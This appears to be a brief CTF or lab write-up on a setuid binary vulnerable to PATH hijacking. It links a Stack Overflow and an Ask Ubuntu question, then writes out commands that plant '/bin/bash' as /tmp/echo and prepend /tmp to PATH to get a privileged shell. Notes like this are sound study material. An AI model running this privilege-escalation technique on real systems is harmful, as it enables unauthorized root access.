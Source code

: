 https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code

https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

File has a weird CHMOD.

Security threat, can replace env variable

`echo "/bin/bash" > /tmp/echo`

`chmod 777 /tmp/echo && export PATH=/tmp:$PATH`

path went from:

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

to 

PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
